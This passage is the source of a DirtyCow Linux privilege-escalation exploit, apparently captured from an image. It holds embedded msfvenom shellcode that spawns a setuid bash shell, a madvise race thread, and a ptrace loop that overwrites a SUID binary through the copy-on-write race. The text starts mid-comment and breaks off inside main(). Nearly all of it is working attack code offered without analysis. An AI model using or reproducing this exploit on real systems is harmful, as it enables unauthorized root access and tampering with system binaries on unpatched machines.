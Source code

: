 ```
* $ msfvenom -p linux/x86/exec CMD=/bin/bash PrependSetuid=True -f elf | xxd -i
unsigned char shell_code[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x01, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x03, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x54, 0x80, 0x04, 0x08, 0x34, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x34, 0x00, 0x20, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x80, 0x04, 0x08, 0x00, 0x80, 0x04, 0x08, 0x88, 0x00, 0x00, 0x00,
  0xbc, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00,
  0x31, 0xdb, 0x6a, 0x17, 0x58, 0xcd, 0x80, 0x6a, 0x0b, 0x58, 0x99, 0x52,
  0x66, 0x68, 0x2d, 0x63, 0x89, 0xe7, 0x68, 0x2f, 0x73, 0x68, 0x00, 0x68,
  0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x52, 0xe8, 0x0a, 0x00, 0x00, 0x00,
  0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x62, 0x61, 0x73, 0x68, 0x00, 0x57, 0x53,
  0x89, 0xe1, 0xcd, 0x80
};
unsigned int sc_len = 136;
*/

void *madviseThread(void *arg) {
  int i,c=0;
  for(i=0;i<200000000;i++)
    c+=madvise(map,100,MADV_DONTNEED);
  printf("madvise %d\n\n",c);
}


int main(int argc,char *argv[]){

  printf("                                \n\
   (___)                                   \n\
   (o o)_____/                             \n\
    @@ `     \\                            \n\
     \\ ____, /%s                          \n\
     //    //                              \n\
    ^^    ^^                               \n\
", suid_binary);
  char *backup;
  printf("DirtyCow root privilege escalation\n");
  printf("Backing up %s to /tmp/bak\n", suid_binary);
  asprintf(&backup, "cp %s /tmp/bak", suid_binary);
  system(backup);

  f=open(suid_binary,O_RDONLY);
  fstat(f,&st);
  map=mmap(NULL,st.st_size+sizeof(long),PROT_READ,MAP_PRIVATE,f,0);
  printf("mmap %x\n\n",map);
  pid=fork();
  if(pid){
    waitpid(pid,NULL,0);
    int u,i,o,c=0,l=sc_len;
    for(i=0;i<10000/l;i++)
      for(o=0;o<l;o++)
        for(u=0;u<10000;u++)
          c+=ptrace(PTRACE_POKETEXT,pid,map+o,*((long*)(shell_code+o)));
    printf("ptrace %d\n\n",c);
   }
  else{
    pthread_create(&pth,
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(),SIGSTOP);
```